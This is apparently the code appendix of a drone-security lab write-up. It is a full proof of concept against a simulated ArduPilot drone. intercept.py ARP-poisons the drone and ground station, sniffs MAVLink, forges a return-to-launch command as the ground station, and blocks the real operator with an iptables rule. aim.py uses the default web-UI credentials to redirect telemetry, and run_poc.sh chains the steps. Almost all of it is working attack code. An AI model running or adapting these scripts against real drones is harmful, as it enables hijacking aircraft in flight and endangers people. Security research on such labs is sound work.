            net = ipaddress.ip_network(parts[3], strict=False)
            if target in net:
                return parts[1]
    return None


def my_mac_on(iface):
    with open(f"/sys/class/net/{iface}/address") as f:
        return f.read().strip()


def set_sysctl(name, value):
    sh(f"sysctl -qw {name}={value}")


def get_sysctl(name):
    out = sh(f"sysctl -n {name}")
    return out.stdout.strip()


# ------------------------------------------------------------ MAVLink forge
class _Sink:
    """pymavlink wants a file-ish object for its send path; we never send
    through it, we only pack frames and put them on the wire ourselves."""
    def write(self, *_):
        pass


class Forge:
    """Builds MAVLink v2 bytes as if we were the GCS (system 255)."""

    def __init__(self, target_system=1, target_component=1):
        self.link = mavutil.mavlink.MAVLink(
            _Sink(), srcSystem=255, srcComponent=0)
        self.target_system = target_system
        self.target_component = target_component

    def heartbeat(self):
        m = self.link.heartbeat_encode(
            mavutil.mavlink.MAV_TYPE_GCS,
            mavutil.mavlink.MAV_AUTOPILOT_INVALID, 0, 0, 0)
        return m.pack(self.link)

    def set_mode(self, custom_mode):
        m = self.link.set_mode_encode(
            int(self.target_system),
            int(mavutil.mavlink.MAV_MODE_FLAG_CUSTOM_MODE_ENABLED),
            int(custom_mode))
        return m.pack(self.link)


def rtl_mode_id():
    """mode_mapping_byname needs a live connection to know the autopilot;
    without one, ArduCopter's RTL custom_mode is the stable documented 6."""
    try:
        m = mavutil.mode_mapping_byname("RTL")
        if m:
            return int(m)
    except Exception:
        pass
    return 6


# ------------------------------------------------------------- the sniffer
class Tap(threading.Thread):
    """AF_PACKET tap on the bridge; parses every UDP datagram between the
    drone and the GCS as MAVLink and keeps the interesting facts current."""

    def __init__(self, iface, drone_ip, gcs_ip):
        super().__init__(daemon=True)
        self.iface = iface
        self.drone_ip, self.gcs_ip = drone_ip, gcs_ip
        self.drone_port = None          # mavlink-router's socket (learned)
        self.gcs_port = None
        self.mode = None                # latest FC flight mode string
        self.rel_alt = None             # latest FC relative altitude (m)
        self.last_ack = None            # (command, result, t) seen
        self.running = True
        self.lockout = False            # tag GCS->drone frames as dead
        self.seen = 0
        self._parse_d2g = mavutil.mavlink.MAVLink(_Sink())
        self._parse_g2d = mavutil.mavlink.MAVLink(_Sink())
        s = socket.socket(socket.AF_PACKET, socket.SOCK_RAW,
                          socket.ntohs(0x0003))
        s.bind((iface, 0))
        # promiscuous: without this we only see frames addressed to us,
        # and drone->GCS unicast passes the host by entirely
        # (linux constants - py3.14's socket module dropped the names)
        SOL_PACKET, PACKET_ADD_MEMBERSHIP, PACKET_MR_PROMISC = 263, 1, 1
        ifindex = socket.if_nametoindex(iface)
        mreq = struct.pack("iHH8s", ifindex, PACKET_MR_PROMISC, 0, b"")
        s.setsockopt(SOL_PACKET, PACKET_ADD_MEMBERSHIP, mreq)
        s.settimeout(0.5)
        self.sock = s

    def _feed(self, direction, payload):
        parser = self._parse_d2g if direction == "d2g" else self._parse_g2d
        try:
            msgs = parser.parse_buffer(payload) or []
        except Exception:
            return
        for m in msgs:
            t = m.get_type()
            if t == "HEARTBEAT" and m.get_srcSystem() == 1 \
                    and m.autopilot != mavutil.mavlink.MAV_AUTOPILOT_INVALID:
                try:
                    self.mode = mavutil.mode_string_v10(m)
                except Exception:
                    self.mode = f"custom={m.custom_mode}"
            elif t == "GLOBAL_POSITION_INT":
                self.rel_alt = m.relative_alt / 1000.0
            elif t == "COMMAND_ACK":
                self.last_ack = (m.command, m.result, time.time())
                log("tap", f"COMMAND_ACK cmd={m.command} "
                           f"result={m.result} {'ACCEPTED' if m.result == 0 else ''}")
            elif t in ("SET_MODE", "COMMAND_LONG") and direction == "g2d":
                tag = "DROPPED" if self.lockout else "gcs->drone"
                extra = ""
                if t == "SET_MODE":
                    extra = f" custom_mode={m.custom_mode}"
                elif m.command == 11:
                    extra = " (DO_SET_MODE)"
                elif m.command == 400:
                    extra = " (ARM_DISARM)"
                log("tap", f"{tag}: {t}{extra}")

    def run(self):
        while self.running:
            try:
                raw, _ = self.sock.recvfrom(65535)
            except socket.timeout:
                continue
            if len(raw) < 34:
                continue
            eth_proto = struct.unpack("!H", raw[12:14])[0]
            if eth_proto != 0x0800:
                continue
            ihl = (raw[14] & 0x0F) * 4
            if raw[23] != 17:            # proto UDP
                continue
            src = socket.inet_ntoa(raw[26:30])
            dst = socket.inet_ntoa(raw[30:34])
            pair = {src, dst}
            if pair != {self.drone_ip, self.gcs_ip}:
                continue
            sport, dport = struct.unpack("!HH", raw[14 + ihl:18 + ihl])
            ulen = struct.unpack("!H", raw[18 + ihl:20 + ihl])[0]
            off = 14 + ihl + 8
            payload = raw[off:14 + ihl + ulen]
            if not payload:
                continue
            self.seen += 1
            if src == self.drone_ip:
                if self.drone_port is None:
                    self.drone_port = sport
                    self.gcs_port = dport
                    log("tap", f"drone endpoint learned from the stream: "
                               f"{src}:{sport} -> {dst}:{dport} "
                               f"(no scan involved)")
                self._feed("d2g", payload)
            else:
                self._feed("g2d", payload)

    def stop(self):
        self.running = False
        self.sock.close()


# ------------------------------------------------------------ ARP poisoning
class Poison(threading.Thread):
    """Classic bidirectional ARP redirect. Remembers the true MACs so we can
    put the network back the way we found it."""

    def __init__(self, iface, drone_ip, gcs_ip):
        super().__init__(daemon=True)
        self.iface = iface
        self.drone_ip, self.gcs_ip = drone_ip, gcs_ip
        self.my_mac = my_mac_on(iface)
        self.true_drone_mac = getmacbyip(drone_ip)
        self.true_gcs_mac = getmacbyip(gcs_ip)
        self.running = True
        if not self.true_drone_mac or not self.true_gcs_mac:
            sys.exit("[arp] could not resolve true MACs - aborting "
                     "before touching anything")

    def _is_at(self, victim_ip, claimed_ip, claimed_mac):
        pkt = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(
            op=2, pdst=victim_ip, psrc=claimed_ip, hwsrc=claimed_mac)
        sendp(pkt, iface=self.iface, verbose=0)

    def run(self):
        while self.running:
            # tell the drone: "the GCS is at my MAC"
            self._is_at(self.drone_ip, self.gcs_ip, self.my_mac)
            # tell the GCS: "the drone is at my MAC"
            self._is_at(self.gcs_ip, self.drone_ip, self.my_mac)
            time.sleep(1.5)

    def restore(self):
        """Re-announce the truth, repeatedly, so both caches converge back."""
        for _ in range(6):
            self._is_at(self.drone_ip, self.gcs_ip, self.true_gcs_mac)
            self._is_at(self.gcs_ip, self.drone_ip, self.true_drone_mac)
            time.sleep(0.5)


# -------------------------------------------------------------------- main
def main():
    ap = argparse.ArgumentParser(
        description="H3 on-path MAVLink interception PoC")
    ap.add_argument("--drone", required=True, help="companion IP (pushes UDP)")
    ap.add_argument("--gcs", required=True, help="legit GCS IP")
    ap.add_argument("--rtl-after-alt", type=float, default=6.0,
                    help="inject RTL once the operator climbs past this (m)")
    ap.add_argument("--lockout", type=float, default=25.0,
                    help="seconds to hold the GCS lockout")
    args = ap.parse_args()

    if os.geteuid() != 0:
        sys.exit("run me as root - the tap, ARP and iptables need it")

    iface = iface_for_ip(args.drone)
    if not iface:
        sys.exit(f"no local interface reaches {args.drone}")
    my_ip = "?"
    for tok in sh(f"ip -o -4 addr show {iface}").stdout.split():
        if "/" in tok and tok[0].isdigit():
            my_ip = tok.split("/")[0]
            break
    log("setup", f"attacker {my_ip} on {iface} "
                 f"(drone {args.drone}, gcs {args.gcs})")

    rtl_id = rtl_mode_id()

    # ---------------- phase 1: passive tap (no poisoning yet)
    log("phase 1", "TAP - listening on the bridge, touching nothing")
    tap = Tap(iface, args.drone, args.gcs)
    tap.start()
    t0 = time.time()
    while not tap.drone_port and time.time() - t0 < 60:
        time.sleep(1)
    if not tap.drone_port:
        tap.stop()
        sys.exit("[tap] no drone->GCS UDP flow seen in 60s - is the "
                 "operator's stream up?")
    log("phase 1", f"stream readable on-path: mode={tap.mode} "
                   f"alt={tap.rel_alt} ({tap.seen} packets)")

    # ---------------- phase 2: ARP redirect (transparent - we forward)
    prev_fwd = get_sysctl("net.ipv4.ip_forward")
    set_sysctl("net.ipv4.ip_forward", 1)
    set_sysctl(f"net.ipv4.conf.{iface}.send_redirects", 0)
    set_sysctl("net.ipv4.conf.all.send_redirects", 0)
    log("phase 2", "POISON - ARP-redirecting drone <-> GCS through us "
                   "(forwarding on, so their link keeps working)")
    poison = Poison(iface, args.drone, args.gcs)
    poison.start()
    time.sleep(4)
    log("phase 2", f"on-path: drone thinks GCS is {poison.my_mac}, "
                   f"GCS thinks drone is {poison.my_mac} (our MAC)")

    # ---------------- phase 3: inject RTL, forged as the legit GCS
    log("phase 3", f"INJECT - waiting for operator to climb past "
                   f"{args.rtl_after_alt:.0f} m before we strike")
    while (tap.rel_alt or 0) < args.rtl_after_alt:
        time.sleep(1)
    log("phase 3", f"operator is at {tap.rel_alt:.1f} m - injecting RTL as "
                   f"the GCS ({args.gcs}:{tap.gcs_port} -> "
                   f"{args.drone}:{tap.drone_port})")
    forge = Forge(target_system=1)

    def wire(bytes_):
        pkt = (Ether(src=poison.true_gcs_mac, dst=poison.true_drone_mac) /
               IP(src=args.gcs, dst=args.drone) /
               UDP(sport=tap.gcs_port, dport=tap.drone_port) /
               Raw(bytes_))
        sendp(pkt, iface=iface, verbose=0)

    acked = False
    for attempt in range(3):
        deadline = time.time() + 4
        while time.time() < deadline:
            wire(forge.heartbeat())
            time.sleep(1)
        wire(forge.set_mode(rtl_id))
        # the ACK is broadcast to the whole link; our tap sees it go by
        deadline = time.time() + 8
        while time.time() < deadline:
            if tap.last_ack and tap.last_ack[0] == 11 \
                    and time.time() - tap.last_ack[2] < 8:
                cmd, result, _ = tap.last_ack
                log("phase 3", f"DO_SET_MODE ack result={result}"
                               f"{' (ACCEPTED)' if result == 0 else ''}")
                acked = result == 0
                break
            time.sleep(0.5)
        if acked:
            break
        log("phase 3", f"no ack yet (attempt {attempt + 1}/3)")
    log("phase 3", f"drone mode now: {tap.mode}")

    # ---------------- phase 4: lock out the real GCS
    log("phase 4", f"LOCKOUT - dropping GCS->drone for {args.lockout:.0f}s "
                   f"(their retries die here, telemetry still flows)")
    tap.lockout = True
    rule = (f"iptables -I FORWARD 1 -s {args.gcs} -d {args.drone} "
            f"-p udp --dport {tap.drone_port} -j DROP")
    sh(rule)
    t0 = time.time()
    while time.time() - t0 < args.lockout:
        if int(time.time() - t0) % 10 == 0 and int(time.time() - t0) > 0:
            counts = sh(f"iptables -vL FORWARD 1").stdout.split()
            pkts = counts[0] if counts else "?"
            log("phase 4", f"operator mode={tap.mode} alt="
                           f"{tap.rel_alt and f'{tap.rel_alt:.1f}m'} "
                           f"- dropped {pkts} of their packets so far")
        time.sleep(1)

    # ---------------- phase 5: put everything back
    log("phase 5", "RESTORE - removing drop rule, re-announcing true MACs")
    tap.lockout = False
    sh(f"iptables -D FORWARD -s {args.gcs} -d {args.drone} "
       f"-p udp --dport {tap.drone_port} -j DROP")
    poison.running = False
    poison.join(timeout=3)
    poison.restore()
    set_sysctl("net.ipv4.ip_forward", prev_fwd)
    tap.stop()
    log("done", f"final: mode={tap.mode} alt="
                f"{tap.rel_alt and f'{tap.rel_alt:.1f}m'} - "
                f"interception complete, network restored")


if __name__ == "__main__":
    main()
```


### `gcs_operator.py` — the legitimate GCS that flies the mission and watches it disobey

```python
#!/usr/bin/env python3
"""
operator.py - the legitimate ground station for the interception demo.

Runs in a container on the drone's network. The drone (companion's
mavlink-routerd) pushes its MAVLink stream to us over UDP 14550 - the exact
"push-only, nothing to scan" posture of the live challenge. We fly a normal
mission: GUIDED, arm, takeoff to 15 m, hold. Commands go back on the same
UDP flow.

Then, at some point, the drone does something we did not ask for...
"""
import threading
import time

from pymavlink import mavutil


def log(msg):
    print(f"[{time.strftime('%H:%M:%S')}] [operator] {msg}", flush=True)


mav = mavutil.mavlink_connection("udpin:0.0.0.0:14550",
                                 source_system=250, source_component=0)

log("waiting for the drone's UDP stream (nothing for us to scan - "
    "it comes to us)...")
hb = mav.wait_heartbeat(timeout=120)
while not (hb.get_srcSystem() == 1
           and hb.autopilot != mavutil.mavlink.MAV_AUTOPILOT_INVALID):
    hb = mav.recv_match(type="HEARTBEAT", blocking=True, timeout=10)
    if hb is None:
        raise SystemExit("[operator] stream died")
mav.target_system, mav.target_component = hb.get_srcSystem(), hb.get_srcComponent()
log(f"flight controller locked: sys={mav.target_system} "
    f"mode={mav.flightmode}")


def heartbeats():
    while True:
        try:
            mav.mav.heartbeat_send(mavutil.mavlink.MAV_TYPE_GCS,
                                   mavutil.mavlink.MAV_AUTOPILOT_INVALID,
                                   0, 0, 0)
        except Exception:
            return
        time.sleep(1)


threading.Thread(target=heartbeats, daemon=True).start()
for msg_id in (0, 1, 25, 30, 33, 74):   # 25 = STATUSTEXT: hear PreArm reasons
    mav.mav.command_long_send(
        mav.target_system, mav.target_component,
        mavutil.mavlink.MAV_CMD_SET_MESSAGE_INTERVAL, 0,
        msg_id, 1_000_000, 0, 0, 0, 0, 0)


def wait_ack(command_id, timeout=10):
    deadline = time.time() + timeout
    while time.time() < deadline:
        msg = mav.recv_match(blocking=True, timeout=2)
        if msg is None:
            continue
        if msg.get_type() == "STATUSTEXT":
            log(f"AP says: {msg.text}")
        elif msg.get_type() == "COMMAND_ACK" and msg.command == command_id:
            return msg.result
    return None


log("flying the mission: GUIDED -> ARM -> TAKEOFF 15 m -> hold")
log("settling 150 s first - a fresh stage reset spawns the airframe with "
    "a slight tilt and ArduPilot's non-maskable 'Arm: Leaning' check "
    "takes minutes to clear, silently (result 4, and STATUSTEXT never "
    "comes down the push link to explain)")
time.sleep(150)
mav.mav.set_mode_send(mav.target_system,
                      mavutil.mavlink.MAV_MODE_FLAG_CUSTOM_MODE_ENABLED,
                      mav.mode_mapping()["GUIDED"])
log(f"GUIDED ack: {wait_ack(11)}")

# Belt and braces: ask for checks-off too (a param any GCS may set), and
# verify it landed - the write goes over the same UDP link.
mav.mav.param_set_send(mav.target_system, mav.target_component,
                       b"ARMING_CHECK", 0,
                       mavutil.mavlink.MAV_PARAM_TYPE_UINT16)
time.sleep(1)
mav.mav.param_request_read_send(mav.target_system, mav.target_component,
                                b"ARMING_CHECK", -1)
pv = mav.recv_match(type="PARAM_VALUE", blocking=True, timeout=5)
log(f"ARMING_CHECK now: {pv.param_value if pv else 'no answer'}")
armed = False
for attempt in range(30):
    if mav.motors_armed():
        log("drone is armed - taking it from here")
        armed = True
        break
    mav.arducopter_arm()
    r = wait_ack(400)
    if r == 0:
        armed = True
        break
    if attempt % 5 == 4:
        log(f"ARM attempt {attempt + 1}: {r} (waiting out the lean)")
    time.sleep(6)
if not armed:
    raise SystemExit("[operator] could not arm")
mav.motors_armed_wait()
mav.mav.command_long_send(mav.target_system, mav.target_component,
                          mavutil.mavlink.MAV_CMD_NAV_TAKEOFF, 0,
                          0, 0, 0, 0, 0, 0, 15)
log(f"TAKEOFF ack: {wait_ack(22)}")

hijacked_at = None
last_takeoff_try = 0.0
t0 = time.time()
while time.time() - t0 < 300:
    msg = mav.recv_match(type="GLOBAL_POSITION_INT", blocking=True, timeout=3)
    if msg is not None:
        alt = msg.relative_alt / 1000.0
        mode = mav.flightmode
        if alt < 1.0 and mode == "GUIDED" \
                and time.time() - last_takeoff_try > 12:
            # the first takeoff is sometimes rejected (result 4), and a
            # rejected takeoff leaves the drone armed-but-idle, which
            # ArduPilot auto-disarms ~20 s later. So re-arm if needed,
            # then takeoff again - keep driving until it actually climbs.
            last_takeoff_try = time.time()
            if not mav.motors_armed():
                log("disarmed on the ground (auto-disarm) - re-arming")
                mav.arducopter_arm()
                time.sleep(2)
            mav.mav.command_long_send(
                mav.target_system, mav.target_component,
                mavutil.mavlink.MAV_CMD_NAV_TAKEOFF, 0,
                0, 0, 0, 0, 0, 0, 15)
            log("TAKEOFF re-sent")
        if mav.flightmode == "RTL" and hijacked_at is None:
            hijacked_at = time.time()
            log(f"!! MODE IS RTL AT {alt:.1f} m - I DID NOT SEND THAT "
                f"!! attempting to re-take GUIDED...")
            mav.mav.set_mode_send(
                mav.target_system,
                mavutil.mavlink.MAV_MODE_FLAG_CUSTOM_MODE_ENABLED,
                mav.mode_mapping()["GUIDED"])
        elif hijacked_at is not None and time.time() - hijacked_at > 15 \
                and int(time.time() - hijacked_at) % 15 == 0:
            log(f"still not mine: mode={mode} alt={alt:.1f} m - "
                f"retrying GUIDED... ack: {wait_ack(11, timeout=4)}")
        else:
            log(f"t+{time.time() - t0:5.1f}s  alt={alt:6.1f} m  mode={mode}")
    time.sleep(2)

log("operator session over")
```


### `aim.py` — the H1 move that points the drone's UDP stream at the GCS

```python
#!/usr/bin/env python3
"""
aim.py - point the drone's UDP stream at a GCS of your choice.

This is the H1 move from the write-up, already proven in Run B: log into the
companion web UI (default creds admin/cyberdrone - the realistic entry point
the DVD stack ships with), add ourselves as a UdpDestination, restart
telemetry. The drone then *pushes* its whole MAVLink stream, command channel
included, to that address.

For this demo it is used benignly: it aims the stream at the legitimate
operator container, so there is a real drone->GCS UDP flow for the attacker
to sit on. Same API an attacker would abuse to aim it at themselves.
"""
import argparse
import http.cookiejar
import json
import socket
import sys
import urllib.error
import urllib.parse
import urllib.request

from pymavlink import mavutil  # noqa: F401  (version sanity below)


def log(msg):
    print(f"[aim] {msg}", flush=True)


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--companion", default="10.13.0.3")
    ap.add_argument("--ip", required=True, help="GCS address to aim at")
    ap.add_argument("--port", type=int, default=14550)
    ap.add_argument("--user", default="admin")
    ap.add_argument("--pass", dest="password", default="cyberdrone")
    args = ap.parse_args()
    base = f"http://{args.companion}:3000"

    cj = http.cookiejar.CookieJar()
    opener = urllib.request.build_opener(
        urllib.request.HTTPCookieProcessor(cj))
    data = urllib.parse.urlencode(
        {"username": args.user, "password": args.password}).encode()
    resp = opener.open(urllib.request.Request(f"{base}/login", data=data),
                       timeout=10)
    if "Invalid username or password" in resp.read().decode("utf-8", "replace"):
        sys.exit("[aim] login failed")
    log(f"logged into companion web UI as {args.user}")

    req = urllib.request.Request(
        f"{base}/telemetry/add-udp-destination",
        data=json.dumps({"ip": args.ip, "port": args.port}).encode(),
        headers={"Content-Type": "application/json"})
    resp = opener.open(req, timeout=10)
    log(f"UdpDestination {args.ip}:{args.port} added (HTTP {resp.status})")

    payload = {
        "serial_device": "/dev/ttyUSB0",
        "baud_rate": 57600,
        "mavlink_version": 2,
        "enable_udp_server": False,
        "udp_server_port": 14550,
        "enable_tcp_server": False,
        "tcp_server_port": 5760,
        "enable_datastream_requests": False,
        "enable_heartbeat": True,
        "enable_tlogs": False,
    }
    req = urllib.request.Request(
        f"{base}/telemetry/start-telemetry",
        data=json.dumps(payload).encode(),
        headers={"Content-Type": "application/json"})
    try:
        opener.open(req, timeout=25)
        log("telemetry restarted")
    except (socket.timeout, urllib.error.URLError) as e:
        # documented gotcha: the route spawns mavlink-routerd and waits on
        # the process, so the HTTP response never arrives - this IS success
        log(f"telemetry API hung as expected ({type(e).__name__}) - "
            f"the router restarted with our destination")


if __name__ == "__main__":
    main()
```


### `run_poc.sh` — orchestration inside the VM

```bash
#!/bin/bash
# run_poc.sh - the H3 on-path interception demo, end to end, in the VM.
#
#   drone (companion mavlink-routerd) --UDP push--> operator container
#                     ^                         ^
#                     |   ARP-redirected both ways through the VM host
#                     |                         |
#                 intercept.py (root, on the docker bridge)
#
# Layout of the run:
#   0. wait for the stage manager, boot the drone (stage1)
#   1. start the operator container on the drone's network
#   2. aim the drone's UDP stream at the operator (weak-cred web UI)
#   3. run the attacker; watch it tap -> poison -> inject -> lockout -> restore
set -u
DIR="$(cd "$(dirname "$0")" && pwd)"
cd "$DIR"

say() { echo "[$(date +%H:%M:%S)] [poc] $*"; }

# ---------------------------------------------------------------- network
NET=$(docker network ls --format '{{.Name}}' | grep -x 'simulator' || \
      docker network ls --format '{{.Name}}' | grep -i 'simulator' | head -1)
[ -n "$NET" ] || { echo "no simulator network - is the stack up?"; exit 1; }
say "docker network: $NET"

COMPANION=$(docker ps --format '{{.Names}}' | grep companion | head -1)
[ -n "$COMPANION" ] || { echo "no companion container running"; exit 1; }
DRONE=$(docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' "$COMPANION")
say "companion ($COMPANION) = $DRONE  (substituted into scripts by sed)"

# --------------------------------------------------------- 0. boot the drone
STAGE=""
for t in "localhost:8000" "$(docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' $(docker ps --format '{{.Names}}' | grep -m1 simulator)):8000"; do
  if curl -s -o /dev/null --max-time 3 "http://$t/"; then STAGE="$t"; break; fi
done
[ -n "$STAGE" ] || { echo "stage manager not reachable on :8000"; exit 1; }
say "stage manager at $STAGE - triggering stage1"
# NB: no /reset here. Rapid repeated resets degrade the Gazebo world (the
# model starts sinking; land-detection never settles; takeoff rejected 4).
# A freshly booted stack + one stage1 is the known-good workshop posture.
curl -s -X POST "http://$STAGE/stage1" -o /dev/null || true
sleep 25   # let the FC finish booting (workshop-notes gotcha)

# ------------------------------------------------- 1. the legitimate operator
docker rm -f poc-operator >/dev/null 2>&1
docker run -d --name poc-operator --network "$NET" \
  -v "$DIR":/poc -w /poc python:3.11-slim \
  bash -c "pip install -q pymavlink 2>/dev/null | tail -1; python3 gcs_operator.py" \
  >/dev/null
OP_IP=$(docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' poc-operator)
say "operator container up at $OP_IP (listening udpin:0.0.0.0:14550)"

# --------------------------------- 2. aim the drone's UDP stream at the operator
# root cannot import from the user's ~/.local, so locate it by path (no import)
PYSP=$(ls -d /home/drone/.local/lib/python3*/site-packages 2>/dev/null | head -1)
ASROOT="sudo env PYTHONUSERBASE=/home/drone/.local"
[ -n "$PYSP" ] && ASROOT="$ASROOT PYTHONPATH=$PYSP"
$ASROOT python3 "$DIR/aim.py" \
  --companion "$DRONE" --ip "$OP_IP" --port 14550

# ------------------------------------------------------------ 3. the attacker
docker logs -f poc-operator 2>&1 | sed -u 's/^/           /' &
LOGPID=$!
trap 'kill $LOGPID 2>/dev/null' EXIT
say "starting attacker (intercept.py) - drone=$DRONE gcs=$OP_IP"
sleep 20   # give the operator time to connect and start flying
$ASROOT python3 "$DIR/intercept.py" \
  --drone "$DRONE" --gcs "$OP_IP" --rtl-after-alt 6 --lockout 25
say "PoC run finished"
```

